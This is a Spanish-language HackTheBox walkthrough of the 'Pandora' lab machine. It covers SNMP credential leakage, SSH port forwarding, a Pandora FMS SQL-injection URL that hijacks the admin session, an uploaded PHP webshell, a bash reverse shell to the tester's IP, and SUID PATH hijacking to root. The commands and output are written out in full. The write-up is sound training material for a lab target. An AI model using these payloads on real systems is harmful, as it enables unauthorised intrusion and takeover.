





## Sinopsis
Pandora es una máquina fácil de HackTheBox creado por [TheCyberGeek](https://app.hackthebox.com/users/114053) y [dmw0ng](https://app.hackthebox.com/users/610173). 

Enumerando el servicio `SNMP` encontraremos credenciales que nos permitirá entrar en la máquina usando `SSH`. Para el movimiento lateral explotaremos `Pandora FMS` que corre por un puerto interno. Con `SQLi` robaremos las cookies del usuario `admin` para autenticarnos y subiendo un archivo malicioso conseguiremos ejecución remota de comandos `RCE`. Para la escalada de privilegios utilizaremos un binario con `SUID` y con un `Path Hijacking` conseguiremos ser ROOT. 

## Enumeración
Usando `nmap` haciendo un escaneo `TCP SYN port scan` encontraremos SSH y un Apache.
### Nmap TCP SYN Port Scan
```
# Nmap 7.92 scan initiated Sun May 29 19:02:50 2022 as: nmap -p22,80 -sCV -oN targeted 10.10.11.136
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May 29 19:02:59 2022 -- 1 IP address (1 host up) scanned in 8.52 seconds
```

### Servidor Web
Con el comando `whatweb` miramos la tecnología que se utiliza.
```
❯ whatweb http://10.10.11.136
http://10.10.11.136 [200 OK] Apache[2.4.41], Bootstrap, Country[RESERVED][ZZ], Email[contact@panda.htb,example@yourmail.com,support@panda.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.136], Open-Graph-Protocol[website], Script, Title[Play | Landing], probably WordPress, X-UA-Compatible[IE=edge]
```

En el comando anterior vemos un apartado de `Email`. Añadimos `panda.htb` en el archivo `/etc/hosts` por un posible virtual hosting.

```
❯ sudo echo "10.10.11.136 panda.htb" >> /etc/hosts
```

He intentado hacer fuzzing para encontrar posibles rutas existentes pero adelanto que no hay nada, tampoco he encontrado virtual hosting. La página web se muestra igual poniendo `http://10.10.11.136` o `http://panda.htb`


### Nmap UDP Port Scan 
Volvemos a enumerar los puertos pero esta vez hacemos un escaneo por `UDP`, podemos ver el servicio snmp abierto. 
```
# Nmap 7.92 scan initiated Sun May 29 19:03:16 2022 as: nmap --open -sU --top-ports 100 -v -n -oN udpScan 10.10.11.136
Increasing send delay for 10.10.11.136 from 800 to 1000 due to 11 out of 23 dropped probes since last increase.
Nmap scan report for 10.10.11.136
Host is up (0.042s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT    STATE SERVICE
161/udp open  snmp

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sun May 29 19:04:52 2022 -- 1 IP address (1 host up) scanned in 96.14 seconds
```

### SNMP

**Que és SNMP?**
> El Protocolo simple de administración de red o SNMP es un protocolo de la capa de aplicación que facilita el intercambio de información de administración entre dispositivos de red.

Con el comando `onesixtyone` podremos aplicar fuerza bruta para saber la `community string` del servicio snmp, `public` es válido.
```
❯ onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.10.11.136
Scanning 1 hosts, 3217 communities
Cant open hosts file, scanning single host: 10.10.11.136
10.10.11.136 [public] Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
```

Para enumerar el servicio `snmp` utilizaremos el comando `snmpwalk`. Este comando nos permite detectar un conjunto de variables que están disponibles para leer en un dispositivo individual.

```
❯ snmpwalk -v2c -c public 10.10.11.136
[** SNIP **]

HOST-RESOURCES-MIB::hrSWRunParameters.856 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
HOST-RESOURCES-MIB::hrSWRunParameters.870 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
HOST-RESOURCES-MIB::hrSWRunParameters.879 = ""

[** SNIP **]
```

El resultado del comando encontramos el usuario `daniel` con la contraseña `HotelBabylon23`. Ya tenemos credenciales, vamos a intentar autenticarnos por `SSH`.
```
❯ ssh daniel@10.10.11.136
daniel@10.10.11.136's password: HotelBabylon23

[** SNIP **]

daniel@pandora:~$ id
uid=1001(daniel) gid=1001(daniel) groups=1001(daniel)

daniel@pandora:~$ hostname -I
10.10.11.136 dead:beef::250:56ff:feb9:bc5e 

daniel@pandora:~$
```

Usando las credenciales obtenidas hemos conseguido entrar en la máquina a través del `SSH`. El archivo `user.txt` se encuentra en `/home/matt` y no tenemos permisos de lectura, asi que el siguiente paso es convertirnos en `matt`.
```
daniel@pandora:~$ pwd
/home/daniel

daniel@pandora:~$ find / -name user.txt 2> /dev/null
/home/matt/user.txt

daniel@pandora:~$ ls -l /home/matt/user.txt
-rw-r----- 1 root matt 33 May 30 17:27 /home/matt/user.txt

daniel@pandora:~$ cat /home/matt/user.txt
cat: /home/matt/user.txt: Permission denied
```

## Movimiento lateral
Enumerando el sistema podemos encontrar dos carpetas en `/var/www/`. Una de ellas pertenece al usuario `matt`.
```
daniel@pandora:/var/www$ ls -l
total 8
drwxr-xr-x 3 root root 4096 Dec  7 14:32 html
drwxr-xr-x 3 matt matt 4096 Dec  7 14:32 pandora
```
En los archivos de configuración podemos ver que un servicio corriendo internamente en el puerto 80. Aunque pongamos `pandora.panda.htb` en nuestro `/etc/hosts` no podremos acceder a el. Debemos aplicar un port forwarding.
```
daniel@pandora:/var/www$ cat /etc/apache2/sites-available/pandora.conf 
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>
daniel@pandora:/var/www$
```

## Port Forwarding
utilizaremos `SSH` para hacer el port forwarding, llevaremos el puerto 80 de la máquina hasta nuestro localhost.
```
❯ sudo ssh -fN -L 80:127.0.0.1:80 daniel@10.10.11.136
daniel@10.10.11.136's password: HotelBabylon23

❯ nmap localhost
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-30 22:06 CEST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000086s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE
80/tcp    open  http

Nmap done: 1 IP address (1 host up) scanned in 0.11 seconds
```

## Explotación

Ahora que tenemos acceso a la página web es hora de buscar maneras de explotarla.


Como podemos ver en la imagen la versión de este CMS es `v7.0NG.742` esta desactualizada y existen varias vulnerablidades. Todo está en este [blog](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/).



### SQLi
Lo que mas me llama la atención és esta vulnerablidad porque nos permite coger la cookie de un usuario a través de una `SQLi`.


En github he encontrado dos exploits que nos permite robar la cookie del admin y tener una shell interactiva.

Analizando el [exploit](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated/blob/master/sqlpwn.py) podemos ver que hace la siguiente petición.
```
http://{host}/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO
```

Si recargamos la página nos rederigirá en el panel porque hemos robado la cookie del administrador.


### Remote Code Execution
Desde el panel `Admin Tools > File Manager` podremos subir cualquier tipo de archivo, en nuestro caso subiremos una webshell.
```
❯ cat pwned.php
<?php
    system($_GET['cmd']);
?>
```


Para acceder al archivo solo debemos ir a `http://localhost/pandora_console/images/pwned.php`


Ya tenemos ejecución remota de comandos, ahora solo queda entrar en la máquina.
```
http://localhost/pandora_console/images/pwned.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.41/1234 0>%261'
```
```
❯ nc -lnvp 1234
Connection from 10.10.11.136:60992
bash: cannot set terminal process group (896): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images$ 
```

Ya podremos visualizar la flag del usuario.
```
matt@pandora:/home/matt$ cat user.txt 
ed9411ce557725394fc4ea060392710a
```

Para poder entrar en la máquina por ssh y sin proporcionar contraseña tenemos que crear un par de claves con `ssh-keygen` y meter la clave pública en `authorized-keys`.
```
matt@pandora:/home/matt$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/matt/.ssh/id_rsa): 
Created directory '/home/matt/.ssh'.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/matt/.ssh/id_rsa
Your public key has been saved in /home/matt/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:bj9Tj14jwtmurh1K1RQeFDGrg9/V3flrL3738gqem/8 matt@pandora
The key's randomart image is:
+---[RSA 3072]----+
|           .Bo   |
|           . =   |
|            +    |
|         . +   .+|
|        S + . ..+|
|       . + =..  .|
|        + *.=oo .|
|       o +o=.*+o+|
|        oo==B+=OE|
+----[SHA256]-----+
matt@pandora:/home/matt$ cat .ssh/id_rsa.pub > .ssh/authorized_keys

matt@pandora:/home/matt$ chmod 600 .ssh/authorized_keys
```

Copiamos la clave privada en nuestra máquina para poder autenticarnos en `SSH`. **Importante cambiar los permisos**.
```
❯ chmod 600 matt_idrsa
❯ ssh -i matt_idrsa matt@10.10.11.136

[** SNIP **]

matt@pandora:~$ id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
```

## Escalada de privilegios
Enumerando la máquina encontramos los siguientes binarios con permisos `SUID`.
```
matt@pandora:~$ find / -perm -4000 2> /dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
```
Lo que mas llama la atención es el binario `/usr/bin/pandora_backup`. Si lo ejecutamos nos crea un backup.
```
matt@pandora:~$ /usr/bin/pandora_backup

[** SNIP **]

/var/www/pandora/pandora_console/vendor/egulias/email-validator/phpunit.xml.dist
/var/www/pandora/pandora_console/vendor/egulias/email-validator/LICENSE
/var/www/pandora/pandora_console/ws.php
Backup successful!
Terminating program!
```

Analizamos el binario con `ltrace`.
```
matt@pandora:~$ which ltrace
/usr/bin/ltrace

matt@pandora:~$ ltrace /usr/bin/pandora_backup 
getuid()                                                                                                                                           = 1000
geteuid()                                                                                                                                          = 1000
setreuid(1000, 1000)                                                                                                                               = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                                                                                                                  = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)                                                                                                        = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                             = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)                                                                                                       = 39
+++ exited (status 1) +++
```
El binario esta utilizando el comando `tar` pero esta utilizando ruta relativa y esto es peligroso porque podemos hacer un `PATH HIJACKING`.
```
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
```

Creamos un archivo malicioso con el nombre `tar` y retocamos la ruta. 
```
matt@pandora:~$ echo "/usr/bin/sh" > tar
matt@pandora:~$ chmod +x tar 

matt@pandora:~$ export PATH=$(pwd):$PATH

matt@pandora:~$ echo $PATH
/home/matt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Ejecutamos el comando `/usr/bin/pandora_backup` una vez mas. Esta vez ejecutará nuestro archivo `tar` malicioso y nos hará root porque el binario tiene el permiso `SUID`.
```
matt@pandora:~$ /usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
# id
uid=0(root) gid=1000(matt) groups=1000(matt)

# bash  	

root@pandora:~# cat /root/root.txt 
ca89acf9e01e742a9ed07a414ab3471c
```

